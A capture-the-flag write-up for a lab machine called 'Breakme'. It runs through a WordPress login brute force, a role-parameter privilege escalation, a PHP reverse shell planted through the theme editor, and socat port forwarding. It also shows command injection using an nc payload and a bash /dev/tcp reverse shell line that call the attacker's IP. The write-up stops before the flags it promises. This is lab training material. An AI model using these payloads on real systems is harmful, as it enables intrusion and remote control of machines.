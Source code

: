 # Breakme

### Break the system
(Flags can be found at the end of this writeup)<br />
Initial nmap scan only shows port 22 and 80 open. The webserver seems just an empty apache webserver, however, a gobuster directory enumeration shows other resources:<br />
![image](https://github.com/user-attachments/assets/1862c187-c3be-4bfc-91f8-f10a88751816)<br />
Movin around on the webserver, I found a login page at `/wordpress/wp-login`. If I try to login with `admin`, I get back a response that the password for that user is wrong. This means that the `admin` user actually exists:<br  />
![image](https://github.com/user-attachments/assets/e8d5dad4-61b2-4bba-ab34-094940f871d0)<br/>
I tried bruteforcing admin account with `wpscan --url http://10.10.75.11/wordpress/wp-login.php -U admin -P /usr/share/wordlists/rockyou.txt`, but it didn't work.
Next, the following command ` wpscan --url http://10.10.75.11/wordpress/ -e u,p,t` enumerates users, plugins and templates. This time wpscan found another user, bob: <br />
![image](https://github.com/user-attachments/assets/f0e43a3a-36df-478b-909e-cc0009e989f0)<br />
So now try bruteforce bob: `wpscan --url http://10.10.122.80/wordpress/wp-login.php -U bob -P /usr/share/wordlists/rockyou.txt`. <br />
![image](https://github.com/user-attachments/assets/1e20d13e-626c-495e-a5e1-dbe040bd3060)<br />
His credentials are `bob:soccer`. 
The previous wpscan showed that the website is using an older version of `WP data access`, which is 5.3.8. Searching online, I found [here](https://www.wordfence.com/blog/2023/04/privilege-escalation-vulnerability-patched-promptly-in-wp-data-access-wordpress-plugin/) that this version is vulnerable to privilege escalation from subscriber+ to administrator. There's no explicit POC, but the exploit works as follows: 
1) On bob's account, click on `Update Profile`, and intercept the request with Burp Suite
2) Add a parameter to the request: `wpda_role[]=administrator`
3) Forward the request and become admin!
![image](https://github.com/user-attachments/assets/7f6f9ea6-e2b3-447e-8ae7-4b05392e9664)<br />
Now, to upload a reverse shell, we need to upload it in the theme's code, which is found inside `Tools->Themes File Editor`, upload the php reverse shell(I used the [PentestMonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) one), open a netcat listener on the attackers machine and update the theme: <br />
![image](https://github.com/user-attachments/assets/e2598068-7ab7-4573-a0cb-ae4e2905ead2)<br />
Next, I [stabilized the shell](https://maxat-akbanov.com/how-to-stabilize-a-simple-reverse-shell-to-a-fully-interactive-terminal) so that i could maintain my mental integrity.<br />
Running linpaeas, it founds a set of credentials inside wordpress configuration file:<br />
![image](https://github.com/user-attachments/assets/f8e6b88d-9549-4d6b-bf3f-bd73830d8f1f)
So use the given credentials(`econor:SuP3rS3cR37#DB#P@55wd`) to log into the database `mysql -u econor -p`. In the database there are a couple of hashed passwords: <br />
![image](https://github.com/user-attachments/assets/a7d76b78-4539-4024-a637-343439d24388)<br />
We already know bob's password, let's try to crack the admin's password. The hash starts with `$P$`, this means that it is a `Phpass` hash format. I doesn't work, there must be something else. <br />
Linpeas also shows a local service at 127.0.0.1:9999. With `curl` I was able to see that it's a web service. In order to access the web page from the attacker's machine, we need to perform something called `port forwarding`:
1) In the target machine: run `socat TCP-LISTEN:8888,fork TCP:127.0.0.1:9999`
2) In the attacker machine: run `socat TCP4-LISTEN:9998,reuseaddr,fork TCP4:target_ip:8888`
So we are opening port 9998 on the attacker machine and redirecting everything coming in that port to target IP port 8888. Similarly, from the target machine, we redirect everything coming in port 8888 to localhost port 9999, thus accessing the web service. <br />
![image](https://github.com/user-attachments/assets/8d881702-0350-444b-85ed-06f9f0affb30)<br />
The "Check Target" function performs a ping command to the specified IP address. This is very likely a command injection exploit. Here's a list of special characters:<br />
`! @ # $ % ^ & * ( ) - _ = + \ | [ ] { } ; : / ? . >`. <br />
After hours of trying payloads, I found that this `|nc${IFS}10.11.85.53${IFS}5555` worked on the "check user" section. <br />
![image](https://github.com/user-attachments/assets/ef3b720f-e148-4c22-aa4d-23731faf2308)<br />
Now, to get a reverse shell, since we can't use `-`, what we can do is create a `rev.sh` file in our attacker's machine(can be found inside this folder)
/bin/bash -i >& /dev/tcp/10.11.85.53/6666 0>&1
![image](https://github.com/user-attachments/assets/5efb5384-f0ed-4d03-ad29-ed0535c63592)



- What is the first flag?
- What is the second flag?
- What is the root flag?

